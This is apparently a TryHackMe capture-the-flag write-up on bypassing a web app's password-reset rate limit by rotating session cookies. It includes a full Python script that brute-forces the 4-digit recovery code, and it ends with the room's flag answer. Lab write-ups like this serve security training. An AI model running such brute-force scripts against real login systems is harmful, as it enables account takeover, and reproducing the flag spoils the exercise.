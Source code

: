 # Brute forcing 4-digit code

Using the email `tester@hammer.thm` we have found from the enumeration phase, we can explore the reset password feature.

### Overview of password recovery process

**(1)** Enter email in the **Reset Password** page

POST `/reset_password.php` (email=tester%40hammer.thm)

> NOTE: this request must be performed before attempting to POST the recovery code (refer to step 3)&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Response**

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**(2)** A `GET /reset_password.php` request will be sent.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

If the cookie is valid (not expired), we will be presented with a form to enter the 4-digit recovery code.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

**(3)** Send recovery code

POST `/reset_password.php` with recovery code and **s** parameter defined in the request body.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A script exist that automatically logs the user out after a set period of time. The value `countdownv` is used as the time variable, which appears to be controlled by the **s** parameter in our request body:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Response**

If we send an expired cookie, we will get the following response:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

If the cookie is not expired, we will be able to send our recovery code. The image below shows the display for an invalid recovery code.

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

**(4)** Once the window period is over (`countdownv <=0`), the cookie will be expired, and the user will be automatically logged out.

Automatic logout: `GET /logout.php`

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

This will cause the application to expire our cookie.

**Response**

Set-Cookie to `PHPSESSID=deleted`.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>

**(5)** From the `Location` header defined in the previous response, a `GET /index.php` request with no cookies will be sent, to redirect back to the main login page.

`GET /index.php`&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>REQUEST</p></figcaption></figure>

**Response**

New `PHPSESSID` in the Set-Cookie

* Retrieved `PHPSESSID: mgj0vc1q4908nel9i695d3mvj8`&#x20;
* This value will be sent as a cookie in the subsequent requests

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>



**(6)** The entire process repeats from step **(1)** above, with the newly retrieved cookie.&#x20;

### Findings

1. We can control the time period window in the reset password page (`/reset_password.php`) with the **s** parameter. However, this simply prevents the application from immediately expiring our cookie  (`GET /logout.php`), but does not work by itself when brute forcing the code.

### Attempting to brute force the code

1.  It appears that the application implements a rate limiting feature on the recovery code functionality. For a given `PHPSESSID`, we are only allowed 8 attempts within the window period, before it blocks any further requests. To workaround this, we have to retrieve a new `PHPSESSID` after every 8 brute force attempts. This can be done by **(#1)** sending a GET request to `/index.php`, with no cookies, before **(#2)** sending a POST request to `/reset_password.php` with the new cookie retrieved.

    * The flaw is in the way the application handles this process. When we perform step **(#1)**, the application simply associates our new cookie with the email, but fails to generate a new 4-digit code. Thus, this allows us to indefinitely reset our `PHPSESSID` session (without the 4-digit code changing), and eventually retrieve the correct code with _100%_ success rate.
    * This defeats the purpose of the rate limiting feature.



**Python script to brute force the 4-digit recovery code with&#x20;**_**100%**_**&#x20;success rate:**

```python
import requests


class BruteForce:

    s = requests.Session()

    N = 8
    MAX_CODE = 9999
    PORT = 1337
    EMAIL = 'tester@hammer.thm'

    def __init__(self, IP):
        self.IP = IP

        self.headers = {
            'Host': f'{IP}{self.PORT}',
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0'
        }

        self.URL = f'http://{IP}:{self.PORT}'

    def retrieve_new_session(self):
        self.s = requests.Session()

        # session is updated automatically
        self.s.get(f'{self.URL}/index.php', headers=self.headers)

    def associate_email_with_new_session(self):
        data = {
            'email': self.EMAIL
        }

        self.s.post(f'{self.URL}/reset_password.php',
                    headers=self.headers, data=data)

    def start(self):
        try:
            # retrieve initial session
            self.retrieve_new_session()

            # enter email
            self.associate_email_with_new_session()

            iterations = self.MAX_CODE+1

            for i in range(1000, iterations):

                if i % self.N == 0 and i != 0:
                    print('[INFO] Retrieving new PHPSESSID')

                    # request for a new PHPSESSID
                    self.retrieve_new_session()

                    # enter email
                    self.associate_email_with_new_session()

                # zero pads to 4 digits
                code = f'{i:04d}'

                data = {
                    'recovery_code': code,
                    's': 200
                }

                print(f'[INFO] Trying code={code}')

                res = self.s.post(f'{self.URL}/reset_password.php',
                                  headers=self.headers, data=data)

                res_text = res.text
                res_status_code = res.status_code
                res_content_length = len(res.text)
                req_cookies = self.s.cookies.get_dict()

                print(f'status={res_status_code} content_length={
                    res_content_length} cookies={req_cookies}')

                # wrong code
                if 'Invalid or expired recovery code!' in res_text:
                    print("\033[91mWrong code!\033[0m")

                # valid code found
                else:
                    print("\033[92mSuccess!\033[0m")
                    print(f'code={code}')
                    exit()

        except KeyboardInterrupt:
            exit()


IP = input('[!] Enter the target IP address: ')

bruteforce = BruteForce(IP)
bruteforce.start()

```

After running the script, we found the valid code!&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, we have to manually insert the `PHPSESSID` value into our web browser cookies. Upon navigating to the reset password page, we can enter the found code, before being able to set a new password.

After logging in with our new password, we are presented with the dashboard page.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this, we have found the answer to our first question "_What is the flag value after logging in to the dashboard?_": `THM{AuthBypass3D}`
